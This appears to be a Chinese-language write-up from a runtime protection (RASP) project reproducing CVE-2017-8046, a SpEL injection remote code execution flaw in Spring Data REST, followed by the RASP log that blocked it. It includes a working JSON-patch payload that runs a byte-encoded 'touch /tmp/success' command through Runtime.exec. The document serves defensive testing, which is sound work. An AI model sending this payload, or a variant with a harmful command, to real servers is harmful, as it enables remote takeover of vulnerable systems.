





# CVE-2017-8046

## 漏洞简介

Spring Data REST对PATCH方法处理不当，导致攻击者能够利用JSON数据造成RCE。本质还是因为spring的SPEL解析导致的RCE。

## 影响版本

+ Spring Data REST组件的2.6.9 and 3.0.9之前的版本（不包含2.6.9和3.0.9 ）

+ Spring Boot （如果使用了Spring Data REST模块）的1.5.9 和 2.0 M6之前的版本

## 漏洞复现


### 代码下载编译

jdk版本1.8

+ 可以直接从 [Github上面下载](https://github.com/spring-guides/gs-accessing-data-rest.git)
使用其中的`complete`项目.

修改其中的spring-boot-starter-parent为存在漏洞的版本，本文中采用的是1.5.6.RELEASE的版本:
```xml
<parent>
	<groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>1.5.6.RELEASE</version>
    <relativePath/> <!-- lookup parent from repository -->
</parent>
```


+ 进入`complete`项目下执行 

   `mvn clean package`

### 启动工程

+ `java -jar ./target/accessing-data-rest-complete-0.0.1-SNAPSHOT.jar`

+ 验证工程是否启动成功
  访问 [http://localhost:8080](http://localhost:8080),如果出现以下的界面则说明搭建成功

  


### 发起正常请求

+ 通过POST方法添加一个用户


```shell
curl --location --request POST 'http://localhost:8080/people' \
--header 'Content-Type: application/json' \
--data-raw '{"firstName":"san","lastName":"zhang"}'
```

### 发起攻击请求

+ 通过`PATCH`方法更新people1的lastName信息。我们需要发送如下的payload：



请求方法：`PATCH`

请求头：Content-Type:application/json-patch+json

请求URL：http://localhost:8080/people/1

请求Body
```json
[
    {
        "op": "replace",
        "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastName",
        "value": "vulhub"
    }
]
```

执行命令： `touch /tmp/success`

注意：`Content-Type:application/json-patch+json`, http 请求方法必须为 `PATCH`




+ 攻击生效

 /tmp/success 文件被创建


## RASP防护

安装RASP之后，再次发起攻击请求。

### RASP拦截到的攻击参数和调用栈
```json
{
  "protocol":"HTTP/1.1",
  "tomcat.request.body.time":0.153706,
  "method":"PATCH",
  "remoteHost":"0:0:0:0:0:0:0:1",
  "cmdArray":[
    "touch",
    "/tmp/success"
  ],
  "requestURI":"/people/1",
  "stackTrace":[
    "java.lang.ProcessImpl.start(ProcessImpl.java)",
    "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
    "java.lang.Runtime.exec(Runtime.java:621)",
    "java.lang.Runtime.exec(Runtime.java:451)",
    "java.lang.Runtime.exec(Runtime.java:348)",
    "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
    "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
    "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
    "java.lang.reflect.Method.invoke(Method.java:498)",
    "org.springframework.expression.spel.support.ReflectiveMethodExecutor.execute(ReflectiveMethodExecutor.java:113)",
    "org.springframework.expression.spel.ast.MethodReference.getValueInternal(MethodReference.java:129)",
    "org.springframework.expression.spel.ast.MethodReference.getValueInternal(MethodReference.java:85)",
    "org.springframework.expression.spel.ast.CompoundExpression.getValueRef(CompoundExpression.java:57)",
    "org.springframework.expression.spel.ast.CompoundExpression.setValue(CompoundExpression.java:95)",
    "org.springframework.expression.spel.standard.SpelExpression.setValue(SpelExpression.java:438)",
    "org.springframework.data.rest.webmvc.json.patch.PatchOperation.setValueOnTarget(PatchOperation.java:167)",
    "org.springframework.data.rest.webmvc.json.patch.ReplaceOperation.perform(ReplaceOperation.java:41)",
    "org.springframework.data.rest.webmvc.json.patch.Patch.apply(Patch.java:64)",
    "org.springframework.data.rest.webmvc.config.JsonPatchHandler.applyPatch(JsonPatchHandler.java:91)",
    "org.springframework.data.rest.webmvc.config.JsonPatchHandler.apply(JsonPatchHandler.java:83)",
    "org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.readPatch(PersistentEntityResourceHandlerMethodArgumentResolver.java:206)",
    "org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.read(PersistentEntityResourceHandlerMethodArgumentResolver.java:184)",
    "org.springframework.data.rest.webmvc.config.PersistentEntityResourceHandlerMethodArgumentResolver.resolveArgument(PersistentEntityResourceHandlerMethodArgumentResolver.java:141)",
    "org.springframework.web.method.support.HandlerMethodArgumentResolverComposite.resolveArgument(HandlerMethodArgumentResolverComposite.java:121)",
    "org.springframework.web.method.support.InvocableHandlerMethod.getMethodArgumentValues(InvocableHandlerMethod.java:158)",
    "org.springframework.web.method.support.InvocableHandlerMethod.invokeForRequest(InvocableHandlerMethod.java:128)",
    "org.springframework.web.servlet.mvc.method.annotation.ServletInvocableHandlerMethod.invokeAndHandle(ServletInvocableHandlerMethod.java:97)",
    "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.invokeHandlerMethod(RequestMappingHandlerAdapter.java:827)",
    "org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerAdapter.handleInternal(RequestMappingHandlerAdapter.java:738)",
    "org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter.handle(AbstractHandlerMethodAdapter.java:85)",
    "org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:967)",
    "org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:901)",
    "org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:970)",
    "org.springframework.web.servlet.FrameworkServlet.service.md(FrameworkServlet.java:843)"
  ],
  "localAddr":"0:0:0:0:0:0:0:1",
  "parameterMap":{

  },
  "parameters":"[\n    {\n        \"op\": \"replace\",\n        \"path\": \"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastName\",\n        \"value\": \"vulhub\"\n    }\n]\u0000",
  "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
### hook点的检测耗时：

本次攻击请求触发三个hook点，每个hook点的检测耗时如下：

method: tomcat.request.parameter, 耗时: 0.064495 ms

method: tomcat.request.body, 耗时: 0.015883,

method: ProcessImpl.start.before, 耗时: 0.619873 ms

总共耗时：0.7 ms

